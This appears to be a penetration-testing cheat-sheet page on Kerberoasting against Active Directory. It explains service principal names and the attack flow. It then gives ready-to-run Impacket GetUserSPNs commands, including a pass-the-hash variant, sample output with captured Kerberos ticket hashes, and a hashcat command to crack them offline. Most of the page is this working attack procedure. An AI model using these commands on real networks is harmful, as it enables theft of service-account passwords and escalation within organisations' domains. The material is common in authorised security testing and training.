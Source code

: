 # Kerberoasting - SPN

<details>

<summary>What is a SPN ?</summary>

A service principal name (SPN) is the name by which a **Kerberos client uniquely identifies an instance of a service** for a given Kerberos target computer.&#x20;

If you install multiple instances of a service on computers throughout a forest, **each instance must have its own SPN**. A given service instance can have multiple SPNs if there are multiple names that clients might use for authentication. For example, an SPN always includes the name of the host computer on which the service instance is running, so a service instance might register an SPN for each name or alias of its host

</details>



<details>

<summary>Kerberoasting</summary>

* An attacker **scans** Active Directory for **user accounts with SPN values set** using any number of methods, including PowerShell and LDAP queries, scripts provided by the Kerberoast toolkit, or tools like PowerSploit, Bloodhound, etc.
* Once a list of target accounts is obtained, **the attacker requests service tickets** from AD using SPN values
* Using **MimiKatz** or **GetSPN.py**, the attacker then extracts the service tickets to memory and saves the information to a file
* Once the tickets are saved to disk, the attacker passes them into a **password cracking** script that will run a dictionary of passwords as NTLM hashes against the service tickets they have extracted until it can successfully open the ticket. When the ticket is finally opened, it’ll be presented to the attacker in clear text.

</details>

### `Impacket-GetUserSPNs`

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py" %}

```bash
GetUserSPNs.py $domain_name/$username:$password -dc-ip $ip -request

# if we have hashes
GetUserSPNs.py -dc-ip $ip -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -outputfile output.txt $domain_name/$username


# output should give :
ServicePrincipalName                Name        MemberOf                                              PasswordLastSet
----------------------------------  ----------  ----------------------------------------------------  -------------------
http/win10.sittingduck.info         uberuser    CN=Domain Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01                                                        2016-05-13 19:13:20

$krb5tgs$23$*sqladmin01$SITTINGDUCK.INFO$SPN*$6e5307df490c6e3339f613fdc5655785$80ba233b4d24531202f2e354c99e7eda807bde7aeeb48ee4cdb6bf809d78652413699e3cff8b9b78b9ee70e997a538155fc7f72e208d715020d458b8413d4b12b212738833c4694d84937d65cb8ecd0020c00a5d39c07da35a748ea2cb062fca4fa9b282e7046d70ee1cae4cfee7d6f791052e283
$krb5tgs$23$*uberuser$SITTINGDUCK.INFO$SPN*$27c08ed2a8d5394f66e8c13c25c98393$310b787ec5c10b20fcc0acb1406b6a6e2ffddd71de3dc4c70c19e5dfcf262cc88574e61cb3940ebfd574b2bb555f2b05f84d8526e3cf46fc0ca57e03467729757cbf79da9f55cde9dabdda68e80dce6564e9f1b904b0585dbc813b82abf89e973e41c102b664f4c649f85acaf7904a273dddcb9315a66f27334f313190e1caf4f5055b671d250f5912cc1871a1dd4a6126087ddfb98ade8f7dde495ee8ad76583aa5a12eef63a690dd82a15eaaca0d7594f2f1dbc899035d89dd628b291590058cfb3405d1dfe4a383be5704465d9c8972ef8f1cba3541fdfa7dcf5063eaed74051fa18bd73f7b4f7d77

# copy the tickets hashes to file and crack them
hashcat -m 13100 tickets_file dict_file -O
```
